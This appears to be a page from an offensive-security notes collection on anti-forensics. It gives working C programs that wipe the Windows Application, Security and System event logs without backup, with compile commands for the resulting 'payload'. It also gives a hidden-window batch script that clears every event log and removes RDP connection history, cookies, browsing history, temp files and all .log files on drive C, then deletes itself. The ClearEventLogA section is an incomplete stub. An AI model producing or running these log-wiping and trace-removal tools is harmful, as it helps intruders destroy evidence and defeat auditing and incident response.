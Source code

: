 # Clear Event Logs

## ClearEventLog

Clear a single event log.

```c
#include <stdio.h>
#include <windows.h>
#include <errhandlingapi.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")

int main() {
    HANDLE handle_event_log;
    LPCSTR event_log_name = "Application";

    // Open the event log
    handle_event_log = OpenEventLog(NULL, event_log_name);
    if (handle_event_log == NULL) {
        printf("Failed to open event log. Error: %lu\n", GetLastError());
        return 1;
    }

    // Clear the event log without saving a backup
    if (ClearEventLog(handle_event_log, NULL) == 0) {
        printf("Failed to clear event log. Error: %lu\n", GetLastError());
        CloseEventLog(handle_event_log);
        return 1;
    }

    printf("Successfully cleared the event log: %s\n", event_log_name);

    CloseEventLog(handle_event_log);

    return 0;
}
```

Clear multiple event logs.

```c
#include <stdio.h>
#include <windows.h>
#include <errhandlingapi.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")

int main() {
    HANDLE handle_event_log;
    LPCSTR event_log_names[] = {"Application", "Security", "System"};

    // Loop through each log and attempt to clear it
    for (int i = 0; i < sizeof(event_log_names) / sizeof(event_log_names[0]); i++) {
        // Open the event log
        handle_event_log = OpenEventLog(NULL, event_log_names[i]);
        if (handle_event_log == NULL) {
            printf("Failed to open event log: %s. Error: %lu\n", event_log_names[i], GetLastError());
            continue;  // Move to the next log if opening fails
        }

        // Clear the event log without saving a backup
        if (ClearEventLog(handle_event_log, NULL) == 0) {
            printf("Failed to clear event log: %s. Error: %lu\n", event_log_names[i], GetLastError());
        } else {
            printf("Successfully cleared the event log: %s\n", event_log_names[i]);
        }

        CloseEventLog(handle_event_log);
    }

    return 0;
}
```

To compile the payload.

```
$ x86_64-w64-mingw32-gcc -l advapi32 -o wipe_logs.exe wipe_logs.c
```

## ClearEventLogA

```c
#include <stdio.h>
#include <windows.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")
```

To compile the payload.

```
$ x86_64-w64-mingw32-gcc -l advapi32 -o wipe_logs.exe wipe_logs.c
```

## Batch

A batch script to wipe the files.

```batch
:start
cmdow @ /HID

timeout.exe /t 5

for /f "tokens=1,2*" %%V in ('bcdedit.exe') do set adminTest=%%V
if (%adminTest%)==(Access) goto noAdmin
for /f "tokens=*" %%G in ('wevtutil.exe enum-logs') do (call :clear_log "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd

:clear_log
echo clearing %1
wevtutil.exe clear-log %1
goto :eof

:noAdmin
echo Administrative privileges is required!
echo.

:theEnd
rd /s /q %SYSTEMDRIVE%\$RECYCLE.BIN
rd /s /q  %SYSTEMDRIVE%\recycler
reg.exe delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
reg.exe delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f
reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers"
cd %USERPROFILE%\Documents\
attrib.exe Default.rdp -s -h

del /s /q /a c:\*.log
del /s /q /a c:\*.tmp
del /f /s /q /a "%USERPROFILE%\Roaming\Macromedia\*"
del /f /s /q /a "%USERPROFILE%\Roaming\Adobe\*"
del /f /s /q /a "C:\Windows\Temp\*"
del /f /s /q /a "C:\Temp\*"
del /f /s /q /a "%USERPROFILE%\AppData\Local\Temp\*"
del /f /s /q %TEMP%\*
cd %USERPROFILE%\AppData\Local\Temp
rmdir /s /q %USERPROFILE%\AppData\Local\Temp
pushd %TEMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\TEMP && rd /s /q . > nul 2>&1
pushd %TMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\TMP && rd /s /q . > nul 2>&1
pushd %TEMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\Temp && rd /s /q . > nul 2>&1
pushd %TMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\tmp && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\Application Data\Temp" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\AppData\Roaming\Adobe\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\History" && rd /s /q . > nul 2>&1
pushd %USERPROFILE%\Cookies && rd /s /q . > nul 2>&1

pushd "%USERPROFILE%\Application Data\Microsoft\CryptNetURLCache\Content\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Application Data\Microsoft\CryptNetURLCache\MetaData\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\Application Data\IconCache.db" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\All Users\Application Data\Temp\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Cookies\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Local Settings\Temp\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\LocalService\Cookies\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\LocalService\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1

del /f /s /q /a "%USERPROFILE%\AppData\Roaming\Download Master\temp\*"
del /f /s /q /a "%USERPROFILE%\AppData\Roaming\Download Master\logs\*"

del %0
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x01 - Defense Evasion/12 - Anti-Forensics/Windows/Clear Traces/04 - Clear Logs/Delete Logs/Event Logs/Manual/Living off the Land]]

### Microsoft

- [WinAPI Documentation: `OpenEventLogA`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-openeventloga)

- [WinAPI Documentation: `OpenEventLogW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-openeventlogw)

- [WinAPI Documentation: `ClearEventLog`](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/eventlogprov/cleareventlog-method-in-class-win32-nteventlogfile)

- [WinAPI Documentation: `ClearEventLogA`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-cleareventloga)

- [WinAPI Documentation: `ClearEventLogW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-cleareventlogw)

- [WinAPI Documentation: `CloseEventLog`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-closeeventlog)